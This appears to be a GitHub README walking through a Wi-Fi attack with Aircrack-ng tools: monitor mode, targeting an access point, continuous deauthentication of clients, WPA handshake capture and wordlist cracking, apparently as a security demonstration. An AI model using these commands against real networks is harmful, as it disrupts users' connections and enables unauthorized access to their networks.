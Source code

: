 # attacker-tools-analysis
A project analyzing and demonstrating the use of attacker tools like Aircrack-ng and Hydra, focusing on network security.

Step 1: Installing Aircrack-ng
![image](https://github.com/user-attachments/assets/5225b4d6-af17-4487-b964-41b6d970772d)
sudo apt install aircrack-ng

Explanation: This command installs the Aircrack-ng suite for auditing Wi-Fi network security.

Step 2: Removing Conflicting or Unnecessary Packages
![image](https://github.com/user-attachments/assets/3c2337fc-4af5-40b5-a716-cc4a2c869e6a)
sudo apt remove fern-wifi-cracker

Explanation: Removes unnecessary/conflicting tools like fern-wifi-cracker to ensure a clean environment for Aircrack-ng operations.

Step 3: Confirming Installation and Cleanup
![image](https://github.com/user-attachments/assets/b48b7c4e-ec59-4cb0-8f54-26dde800a51f)
sudo apt install aircrack-ng

Explanation: Confirms Aircrack-ng installation and frees up disk space for optimal performance.

Step 4: Scanning for Wi-Fi Networks
![image](https://github.com/user-attachments/assets/b3cc0e41-eb57-4ac6-aa3f-06e8bfb24f21)
airodump-ng wlan0mon

Explanation: Scans and displays details of available Wi-Fi networks, including their BSSID, channel, and encryption type.

Step 5: Enabling Monitor Mode with Aircrack-ng
![image](https://github.com/user-attachments/assets/fb56d954-696f-41ea-9726-b3277e5844a9)
airmon-ng start wlan0

Explanation: Switches the wireless interface to monitor mode to capture packets for analysis.

Step 6: Verifying Network Interface Configuration
![image](https://github.com/user-attachments/assets/9194be97-e120-4969-9d2d-ffdc365f8d26)
ifconfig

Explanation: Displays network interface status to ensure readiness for testing.

Step 7: Cracking Wi-Fi Password with Aircrack-ng
![image](https://github.com/user-attachments/assets/d72159a1-42aa-4d0a-b6e4-3de9d0814241)
aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt

Explanation: Attempts to crack the WPA password using the rockyou.txt wordlist.

Step 8: Stopping Monitor Mode
![image](https://github.com/user-attachments/assets/479b597e-1f54-4731-9cb9-f3d3db865081)
airmon-ng stop wlan0mon

Explanation: Disables monitor mode and returns the interface to managed mode.

Step 9: Viewing Captured WPA Handshake in Wireshark
![image](https://github.com/user-attachments/assets/2b7acac5-4a3f-49cf-a53c-30cbd195039e)

Explanation: Analyzes the WPA handshake using Wireshark, highlighting key details such as EAPOL packets.

Step 10: Capturing WPA Handshake
![image](https://github.com/user-attachments/assets/d98b76da-6385-48e7-ad89-1f7ad985b3b3)
airodump-ng -c [channel] --bssid [AP_BSSID] -w hack1 wlan0mon

Explanation:The left terminal shows the captured WPA handshake information, confirming the handshake has been saved in the file hack1-01.cap. This file will be used for cracking the encryption later.
The right terminal displays the continuous sending of deauthentication packets to disrupt the connection, which triggers handshake re-establishment.

Step 11: Performing Deauthentication and Capturing Handshake
![image](https://github.com/user-attachments/assets/b59f92c5-12a6-493e-9260-b246957e044f)
aireplay-ng --deauth 0 -a [AP_BSSID] wlan0mon

Explanation: Disrupts client connections to the targeted network, ensuring handshake capture.

Step 12: Filtering Target Network
![image](https://github.com/user-attachments/assets/ddf29a69-319e-48a9-b032-2b6d3bc1ae67)
airodump-ng wlan0mon -d [Target_BSSID]

Explanation:Focuses on a specific target network for refined data capture.

Step 13: Cracking the Captured Handshake
![image](https://github.com/user-attachments/assets/d2fdfc71-5835-458c-b75d-0c4efe032398)
aircrack-ng [capture_file] -w [wordlist_path]

Explanation:
 Tests wordlist passwords against captured data to reveal the Wi-Fi key.
